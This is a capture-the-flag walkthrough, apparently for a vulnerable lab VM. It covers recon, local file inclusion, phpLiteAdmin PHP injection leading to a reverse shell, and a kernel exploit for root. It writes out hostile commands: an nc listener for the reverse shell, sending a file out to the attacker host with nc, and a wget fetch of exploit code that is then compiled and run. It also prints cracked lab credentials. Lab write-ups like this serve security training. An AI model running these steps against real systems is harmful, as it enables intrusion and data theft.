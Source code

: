 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/alice00.PNG?raw=true)  

## Recon-Enumeration  
nmap -A -p- 10.2.0.13  
![alt text](./img/alice01.PNG?raw=true)  

gobuster dir -u http://10.2.0.13 -w ~/wordlists/big.txt -e -x php,xml,txt,html,aspx -t 100  
![alt text](./img/alice02.PNG?raw=true)  

Let’s access these links  
![alt text](./img/alice03.PNG?raw=true)  
  
![alt text](./img/alice04.PNG?raw=true)  

Ok, let’s access the other links, after we return to this…  
![alt text](./img/alice05.PNG?raw=true)  

Looking the source code of the main page we found a redirect  
![alt text](./img/alice20.PNG?raw=true)  

## Exploit  
Ok, so maybe this page is vulnerable to LFI attacks. Let’s test it    
![alt text](./img/alice19.PNG?raw=true)  

We can find interesting files here…  
![alt text](./img/alice00.PNG?raw=true)  
  
This shows that we have access to ZICO’s folder, but not ROOT.
Let’s continue…...

The other links aren’t useful. So let’s return to test_db.php

It’s a login page…..well, here we just put the password, so let’s try our famous “admin” password  
![alt text](./img/alice06.PNG?raw=true)  
  
Oops, it worked. So let’s get some information

Click on info and we receive some user data  
![alt text](./img/alice13.PNG?raw=true)  

So we discover 2 users and 2 hashs. They look like MD5 hashs. Let’s try to break them with [Crackstation](https://crackstation.net/)  
![alt text](./img/alice14.PNG?raw=true)  

Credentials:
> zico:zico2215@  
root:34kroot34

Perfect, with nmap we discover that port 22 is open. Let’s try to connect we those credentials  
![alt text](./img/alice15.PNG?raw=true)  
  
![alt text](./img/alice16.PNG?raw=true)  

Sad :(..... ok, let’s see if we can exploit phpliteadmin

searchsploit phpliteadmin  
![alt text](./img/alice07.PNG?raw=true)  

Wow, there is one with the same version. Let’s read it
searchsploit -x php/webapps/24044.txt  
![alt text](./img/alice08.PNG?raw=true)  

So we first need to create a new database  
![alt text](./img/alice09.PNG?raw=true)  

Now click on it  
![alt text](./img/alice10.PNG?raw=true)  

Let’s create a table with the name ‘test’ with only 1 field  
![alt text](./img/alice11.PNG?raw=true)  

Now create an TEXT field with the DEFAULT VALUE = < ?php phpinfo()? >  
![alt text](./img/alice12.PNG?raw=true)  

Select INSERT in the created table  
![alt text](./img/alice17.PNG?raw=true)  

And click on INSERT again  
![alt text](./img/alice18.PNG?raw=true)  

Now let’s see where our database is located  
![alt text](./img/alice22.PNG?raw=true)  

So we can access it with the view.php found before  
![alt text](./img/alice23.PNG?raw=true)  

Great, so let’s try to use an php reverse shell code and put in the database  
![alt text](./img/alice24.PNG?raw=true)  
  
![alt text](./img/alice25.PNG?raw=true)  
  
Let’s put the code in this [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) on VALUE FIELD (Don’t forget to change de $ip and $port to yours)  
Click on SAVE CHANGES  
![alt text](./img/alice26.PNG?raw=true)  

In your machine setup an netcat listener on $port  
nc -nvlp 1234  

Now let’s use view.php to access the page again  
![alt text](./img/alice27.PNG?raw=true)  

HABEMUS SHELL \o/

## Privesc  
However we are user www-data. And a non-interactive shell. So first let’s get a decent shell:  
python -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
![alt text](./img/alice28.PNG?raw=true)  

Let’s read again the passwd file  
cat /etc/passwd  
![alt text](./img/alice29.PNG?raw=true)  

So ALICE’s home directory is /home/zico. Let’s try to log as alice with the found passwords  
![alt text](./img/alice30.PNG?raw=true)  

sad again :(.....so let’s visit this home directory  

![alt text](./img/alice31.PNG?raw=true)  

Got the user.txt flag, now let’s see the other files  

This zico-history.tar.gz looks interesting. Let’s see how we get it…  
![alt text](./img/alice32.PNG?raw=true)  

We don’t have curl, but have nc  

So on our machine we setup another nc listener  
nc -nvlp 4444 > zico-history.tar.gz  
On target machine we use the above command to send the file to us:  
nc 10.2.0.4 4444 < zico-history.tar.gz  

Use the above commands to access the file  
tar -xf zico-history.tar  
cd zico-history  
![alt text](./img/alice33.PNG?raw=true)  
  
…….dammit, useless kkkkkk  

Goind to /home/zico/wordpress/wp-config.php we found another credential  
![alt text](./img/alice34.PNG?raw=true)  

Let’s try to use the credential with user alice  
![alt text](./img/alice35.PNG?raw=true)  
  
![alt text](./img/alice36.PNG?raw=true)  

Ok, so maybe we can log with ssh too, which will give us an full interactive shell  
![alt text](./img/alice39.PNG?raw=true)  

Let’s get more information  
![alt text](./img/alice42.PNG?raw=true)  
  
Hummm this an old kernel version. Let’s search for a kernel exploit  

searchsploit kernel 3.2.0  
![alt text](./img/alice43.PNG?raw=true)  

This one is interesting…  
![alt text](./img/alice44.PNG?raw=true)  
  
Ok, so let’s follow the instructions. But first we need to get this file in the target machine  
> In your machine  
>> searchsploit -m linux_x86-64/local/33589.c  
>> sudo python3 -m http.server 80  

> On target machine  
>> cd /tmp  
>> wget http://10.2.0.4/33589.c  
>> gcc 33589.c -O2 -o vnik  
>> chmod +x vnik  
>> ./vnik 0  

![alt text](./img/alice41.PNG?raw=true)  
